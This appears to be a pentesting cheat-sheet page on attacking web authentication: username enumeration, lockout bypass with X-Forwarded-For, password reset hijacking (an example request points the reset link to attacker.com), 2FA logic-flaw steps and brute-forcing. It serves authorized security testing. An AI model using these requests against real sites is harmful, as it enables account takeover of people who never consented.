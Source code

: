 ```yaml
---
title: "Authentication"
weight: 2
description: "Explore key authentication testing techniques like username enumeration, password reset flaws, 2FA bypasses, and account lockout analysis."
---
```


# Authentication

## Username Enumeration

Finding valid usernames is the first step in many attacks. Test every feature interacting with user accounts (e.g., login, registration, password recovery).

{{< details summary="Common Default Usernames" >}}
Default usernames to test:

```sh
admin
administrator
root
firstname.lastname@somecompany.com
test
guest
```
{{< /details >}}

### Registration Form

If the application states "Account already exists" when registering a known email, it leaks user existence. 

### Response Comparison

Compare server responses when entering:
- A valid username with incorrect passwords
- An invalid username with incorrect passwords

Even minor differences in error messages can reveal valid usernames.

{{< hint style=tips >}}
**Tip**: Use Burp Suite's "Grep - Match" feature in Intruder to detect response variations.
{{< /hint >}}

### Response Timing Analysis

Some systems check passwords only if the username is valid. Sending an excessively long password may create a delay, indicating the username exists.

---

## Password Attacks

[Cracking passwords](/misc/password-cracking) is a key part of authentication testing.


---

## Account Locking Mechanisms

Check if accounts lock after multiple failed attempts (e.g., 3 or 5 attempts). Understand the lockout mechanism:

- **Testing Responses**: Attempt logins with an incorrect password on a locked account, then with the correct password. If responses differ, the lock might be bypassable.
- **IP-Based Lockout**: The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)
Try bypassing with an `X-Forwarded-For` header.


---

## Password Reset Vulnerabilities

### Controlling the Username Parameter

If the reset request contains a `username` parameter, test if it can be changed:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com

user=<victim>&new-pwd=NewPass123&token=xyz
```

### Predictable Password Reset URLs

Some sites use static or weakly random reset links. Test if a simple enumeration allows taking over accounts.

```http
http://vulnerable-website.com/reset-password?user=victim-user
```

### Analyze Randomness

Use **Burp Sequencer** to analyze the quality of randomness of the token.

### Hijacking Password Reset Links

Try injecting an `X-Forwarded-Host` header to change the reset link destination:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com
X-Forwarded-Host: attacker.com

username=victim
```

---

## Two-Factor Authentication (2FA) Bypasses

### Brute-Forcing OTP

If the OTP code is short (e.g., 4-6 digits), brute-force it.

### Skipping 2FA Steps

Check if you can directly access logged-in pages without completing 2FA.

### Exploiting 2FA Logic Flaws
```http
# Step 1: Login with attacker account
POST /login HTTP/1.1
Host: vulnerable-website.com

username=attacker&password=qwerty
```

```http
# Step 2: Server sets a session cookie
HTTP/1.1 200 OK
Set-Cookie: session=attacker
```

```http
# Step 3: Request 2FA page with attacker's session
GET /login-steps/second HTTP/1.1
Cookie: session=attacker
```

```http
# Step 4: Submit the attacker's OTP using the victim's session
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: session=victim

verification-code=123456
```


---

## "Remember Me" Cookie Attacks

- Study how "Remember Me" cookies are generated (e.g., Base64 encoding or hashed values).
- Attempt brute-forcing attack.

---

## Password change

See if you can change the password of an arbitrary user. 
- Look for a hidden username parameter that you can control.
- Brute-force password when you enter your current password.
- Test all current & new password combinations.

```md
current password: <wrong>, new-password-1=XXX, new-password-2=XXX
current password: <wrong>, new-password-1=XXX, new-password-2=YYY
current password: <correct>, new-password-1=XXX, new-password-2=XXX
current password: <correct>, new-password-1=XXX, new-password-2=YYY
```
